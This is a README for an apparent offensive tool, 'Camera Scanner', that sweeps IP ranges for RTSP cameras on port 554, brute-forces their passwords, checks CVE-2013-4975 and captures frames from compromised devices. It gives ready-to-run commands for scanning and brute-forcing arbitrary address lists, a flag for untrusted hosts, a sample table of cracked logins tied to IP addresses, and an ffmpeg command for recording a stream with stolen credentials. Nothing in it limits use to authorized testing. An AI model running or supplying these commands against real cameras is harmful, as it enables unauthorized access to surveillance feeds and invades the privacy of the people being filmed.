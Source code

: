 [![Build Status](https://travis-ci.com/inkarnadin/alarh-camera-scanner.svg?branch=main)](https://travis-ci.com/inkarnadin/alarh-camera-scanner)
[![version](https://img.shields.io/badge/version-0.3.0-orange)](https://github.com/inkarnadin/alarh-camera-scanner/releases/tag/v0.3.0)
[![version](https://img.shields.io/badge/license-apache-yellow.svg)](https://github.com/inkarnadin/alarh-camera-scanner/blob/main/LICENSE.txt)

# Camera Scanner

## Description

Simple camera vulnerability scanner.
* Finds video streams on open port 554 over specified IP ranges;
* Checks and finds passwords using CVE-2013-4975;
* Realizing brute-force attack through RTSP protocol.

## Build

Execute command `mvn package`.

## Usage

The application scans the address range to check the specified port (554 by default) for availability. 
After receiving a list of verified addresses, the password strength is checked using a number of methods 
(including password guessing for the stream and checking for vulnerabilities). If the password is brute-forced, 
the application tries to fetch the frame from the vulnerable device (ffmpeg must be installed).

Usage example:
* `java -jar camera-scanner.jar -source:range.txt -t:10 -p:8000 -passwords:pass.txt -sf`  
scanning and brute ranges, thread = 10, checking port = 8000, save screen, *range.txt* ranges list, *pass.txt* plain passwords list.
* `java -jar camera-scanner.jar -source:range.txt -w:200 -passwords:pass.txt`  
scanning and brute ranges, wait socket connect 200 instead 500 ms, *range.txt* ranges list, *pass.txt* plain passwords list.
* `java -jar camera-scanner.jar -nc -source:list.txt -passwords:pass.txt -sf`  
no scanning, only brute, save screen, *list.txt* plain ip list, *pass.txt* plain passwords list.
* `java -jar camera-scanner.jar -nb -source:range.txt`  
no brute, only scanning by default port, *range.txt* ranges list.

## Flags
* Add `-p` flag for set scanning port (554 by default).
* Add `-th` flag for set parallel threads (10 by default).
* Add `-t` flag for set time of waiting host response (500 ms by default).
* Add `-w` flag for set socket waiting timeout (2000 ms by default).
* Add `-uc` flag allows attempts to connect to untrusted hosts.
* Add `-sf` flag enables saving screenshots (experimental, need installed FFmpeg).
* Add `-nc` flag for start without checking port (only brute, source must be plain ip list).
* Add `-nb` flag for disable brute.

### Results
* All results will be saved in the path `/results/...`.
* All screenshots will be saved in the path `/results/screen/...`.
* All common logs will be saved in the path `/logs/out.log`.
* All ffmpeg logs will be saved in the path `/logs/ffmpeg.log`.
* Statistic report about scanning results will be saved in the path `/results/report.log`.

Bruted data presents as:

|IP address    |Path      |Login    |Password     |Name               |
|:------------:|:--------:|:-------:|:-----------:|:-----------------:|
|12.44.3.103   |11        |admin    |12345        |\<empty name\>     |
|12.44.3.105   |11        |admin    |Wre%6ss_     |\<cve empty name\> |
 
## Save stream
* An example command for receiving a video stream:

 `ffmpeg -i rtsp://${login}:${password}@${host}/Streaming/Channels/101 -acodec copy -vcodec copy /home/user/video.mp4`.